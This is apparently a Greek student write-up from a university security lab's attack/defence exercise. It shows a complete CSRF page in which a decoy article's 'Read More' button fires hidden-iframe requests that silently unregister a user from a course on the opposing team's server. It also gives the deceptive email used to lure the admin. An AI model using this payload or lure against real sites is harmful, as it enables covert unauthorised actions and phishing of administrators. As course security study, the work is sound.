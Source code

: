 ```html
Η γραμμική άλγεβρα είναι τομέας των μαθηματικών και της άλγεβρας ο οποίος ασχολείται με τη μελέτη διανυσμάτων, διανυσματικών χώρων, γραμμικών απεικονίσεων και συστημάτων γραμμικών εξισώσεων. Η αναλυτική γεωμετρία αποτελεί έκφρασή της και η ίδια αποτελεί κεντρικό συνδετικό ιστό των σύγχρονων μαθηματικών, ιδιαιτέρως μέσω της αφηρημένης έννοιας του διανυσματικού χώρου η οποία μπορεί να μοντελοποιήσει πολλά διαφορετικά προβλήματα...
</p>
<input type="button" value="Read More" onclick="submitForms()" />
<iframe name="dummyframe" id="dummyframe" style="display: none;"></iframe>
<form action="http://edimoi-diariktes.csec.chatzi.org/modules/user/user.php"  method="get" id="form1" target="dummyframe">
  <input type="hidden" id="unregister" name="unregister" value="5"><br>
</form>

<iframe name="dummyframe2" id="dummyframe2" style="display: none;"></iframe>
<form action="http://edimoi-diariktes.csec.chatzi.org/courses/TMA102/"  method="get" target="dummyframe2" id="form2">
</form>

<script>
function submitForms (){
    document.getElementById("form2").submit();
    setTimeout(() => {  document.getElementById("form1").submit(); }, 400);

}
</script>

</body>
</html>
```
Ο παραπάνω κώδικας περιέχει:
- Αρχικά εμφανίζεται ένα άρθρο σχετικό με το μάθημα το οποίο είχε δημιουργήσει η αντίπαλη ομάδα (Γραμμική Άλγεβρα). Έπειτα από κάποιες γραμμές του άρθρου υπάρχει ένα button "Read More" το οποίο προτρέπει τον χρήστη να διαβάσει την συνέχεια του άρθρου.
- Μόλις ο χρήστης κάνει κλικ στο button "Read More", εκτελείται η συνάρτηση submitForms η οποία:
	-   Εντός ενός iframe (dummyframe2) πραγματοποιεί ένα get request στην διεύθυνση http://edimoi-diariktes.csec.chatzi.org/courses/TMA102/ , έτσι ώστε ο χρήστης να κάνει "κλικ" στο μάθημα που επιθυμούμε. Λόγω του iframe η όλη διαδικασία παραμένει κρυφή από τον χρήστη.
	-   Έπειτα από ένα μικρό timeout, πραγματοποιεί ένα get request εντός ενός iframe (dummyframe1) στην διεύθυνση http://edimoi-diariktes.csec.chatzi.org/modules/user/user.php?unregister=5 έτσι ώστε να διαγραφεί ο χρήστης με id 5 από το μάθημα TMA102. Λόγω του iframe η όλη διαδικασία παραμένει κρυφή από τον χρήστη.

Έτσι επιτυγχάνεται η διαγραφή του χρήστη από το μάθημα, χωρίς ο admin να το αντιληφθεί καθώς λόγω των iframes τα request έγιναν "κρυφά" χωρίς κάποια οπτική αντίδραση.

***Παρατήρηση***: Θα μπορούσε να μην υπάρχει το "άρθρο" και το button "Read More" και όλα να εκτελούνται κατά το "φόρτωμα" της σελίδας (όπως γίνεται και στο attack του deface).

Έχοντας δημιουργήσει την παραπάνω σελίδα στο puppies του server μας στείλαμε το παρακάτω email στον admin:
```
Καλησπέρα,

Έγραψα ένα άρθρο σχετικό με το μάθημα σας το οποίο παρακολουθώ (Γραμμική
Άλγεβρα).
Θα εκτιμούσα πολύ αν έχετε τον χρόνο να το διαβάσετε και να μου πείτε την
γνώμη σας.

Το άρθρο θα το βρείτε εδώ: http://angry-nerds.puppies.chatzi.org/project.html
```
Έτσι "πείσαμε" τον admin να μπει στην σελίδα μας και να κάνει κλικ στο "Read More", και καταφέραμε το CSRF attack.
